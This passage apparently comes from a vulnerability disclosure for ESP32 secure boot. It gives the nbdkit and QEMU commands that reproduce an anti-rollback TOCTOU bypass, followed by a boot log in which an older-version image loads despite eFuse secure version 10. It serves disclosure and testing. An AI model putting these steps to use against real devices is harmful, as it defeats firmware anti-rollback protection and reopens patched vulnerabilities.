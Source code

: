 ```sh
./nbdkit/nbdkit -f -v python ./nbdkit-anti-rollback-toctou-bypass.py BOOTLOADER_IMAGE=bootloader.bin HELLO_WORLD_VER0_IMAGE=hello_world_secver0.bin
```

Run QEMU with the following command (replace the `qemu_efuse.bin` file
appropriately if not using the attached files):

```sh
./qemu/build/qemu-system-xtensa -nographic \
    -machine esp32 \
    -drive file=nbd://localhost,if=mtd,format=raw \
    -drive file=qemu_efuse.bin,if=none,format=raw,id=efuse \
    -global driver=nvram.esp32.efuse,property=drive,value=efuse
```

Observe the output log:

```
Adding SPI flash device
ets Jul 29 2019 12:21:46

rst:0x1 (POWERON_RESET),boot:0x12 (SPI_FAST_FLASH_BOOT)
configsip: 0, SPIWP:0xee
clk_drv:0x00,q_drv:0x00,d_drv:0x00,cs0_drv:0x00,hd_drv:0x00,wp_drv:0x00
mode:DIO, clock div:2
load:0x3fff00c0,len:11836
ho 0 tail 12 room 4
load:0x40078000,len:26028
load:0x40080400,len:4
ho 8 tail 4 room 4
load:0x40080404,len:3904
entry 0x40080640
I (3440) boot: ESP-IDF v5.3-dev-892-g692c1fcc52 2nd stage bootloader
I (3443) boot: compile time Dec 15 2023 15:04:02
I (3443) boot: Multicore bootloader
I (4450) boot: chip revision: v0.0
I (4457) boot.esp32: SPI Speed      : 40MHz
I (4457) boot.esp32: SPI Mode       : DIO
I (4457) boot.esp32: SPI Flash Size : 8MB
I (4802) boot: Enabling RNG early entropy source...
I (5144) boot: Partition Table:
I (5145) boot: ## Label            Usage          Type ST Offset   Length
I (5145) boot:  0 otadata          OTA data         01 00 00015000 00002000
I (5147) boot:  1 ota_0            OTA app          00 10 00020000 00100000
I (5147) boot:  2 ota_1            OTA app          00 11 00120000 00100000
I (5470) boot: End of partition table
I (6198) boot: Enabled a check secure version of app for anti rollback
I (6199) boot: Secure version (from eFuse) = 10
I (12361) esp_image: segment 0: paddr=00020020 vaddr=3f400020 size=0a390h ( 41872) map
I (15018) esp_image: segment 1: paddr=0002a3b8 vaddr=3ffb0000 size=02240h (  8768) load
I (17750) esp_image: segment 2: paddr=0002c600 vaddr=40080000 size=03a18h ( 14872) load
I (20442) esp_image: segment 3: paddr=00030020 vaddr=400d0020 size=149b0h ( 84400) map
I (23337) esp_image: segment 4: paddr=000449d8 vaddr=40083a18 size=08d8ch ( 36236) load
I (25652) esp_image: segment 5: paddr=0004d76c vaddr=00000000 size=02814h ( 10260)
I (27771) esp_image: Verifying image signature...
I (30536) boot: Loaded app from partition at offset 0x20000
I (30537) secure_boot_v1: bootloader secure boot is already enabled. No need to generate digest. continuing..
I (30539) boot: Checking secure boot...
I (30540) secure_boot_v1: bootloader secure boot is already enabled, continuing..
I (30540) boot: Disabling RNG early entropy source...
I (31276) cpu_start: Multicore app
I (7396) cpu_start: Pro cpu start user code
I (7401) cpu_start: cpu freq: 160000000 Hz
I (7403) cpu_start: Application information:
```
